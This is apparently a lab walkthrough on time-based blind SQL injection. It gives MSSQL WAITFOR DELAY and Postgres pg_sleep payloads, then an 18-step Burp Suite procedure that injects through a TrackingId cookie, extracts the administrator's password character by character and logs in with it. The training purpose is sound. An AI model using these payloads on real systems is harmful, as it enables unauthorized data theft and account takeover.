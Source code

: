### Exploiting blind SQL injection by triggering time delays

The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:

```'; IF (1=2) WAITFOR DELAY '0:0:10'--```

```'; IF (1=1) WAITFOR DELAY '0:0:10'--```

The first of these inputs will not trigger a delay, because the condition 1=2 is false. The second input will trigger a delay of 10 seconds, because the condition 1=1 is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

```'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--```


### Blind SQL injection with time delays and information retrieval

1 - Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie.

2 - Modify the TrackingId cookie, changing it to:

```TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--```

#### ***Note***: ```%3B``` = ```;``` Used for Stacked Queries in Postgres 

Verify that the application takes 10 seconds to respond.

3 - Now change it to:
```TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--```

Verify that the application responds immediately with no time delay. This demonstrates how you can test a single boolean condition and infer the result.

4 - Now change it to:

```TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

Verify that the condition is true, confirming that there is a user called administrator.

5 - The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
```TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

This condition should be true, confirming that the password is greater than 1 character in length.

6 - Send a series of follow-up values to test different password lengths. Send:
```TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

Then send:
```TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the application responds immediately without a time delay), you have determined the length of the password, which is in fact 20 characters long.

7 - After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.

8 - In the Positions tab of Burp Intruder, change the value of the cookie to:
```TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

This uses the SUBSTRING() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

9 - Place payload position markers around the a character in the cookie value. To do this, select just the a, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
```TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

10 - To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lower case alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload settings" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.

11 - To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to 1.

12 - Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.

13 - Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check the box for "Response received".

14 - Review the attack results to find the value of the character at the first position. You should see a column in the results called "Response received". This will generally contain a small number, representing the number of milliseconds the application took to respond. One of the rows should have a larger number in this column, in the region of 10,000 milliseconds. The payload showing for that row is the value of the character at the first position.

15 - Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:

```TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

16 - Launch the modified attack, review the results, and note the character at the second offset.

17 - Continue this process testing offset 3, 4, and so on, until you have the whole password.

18 - In the browser, click "My account" to open the login page. Use the password to log in as the administrator user. 

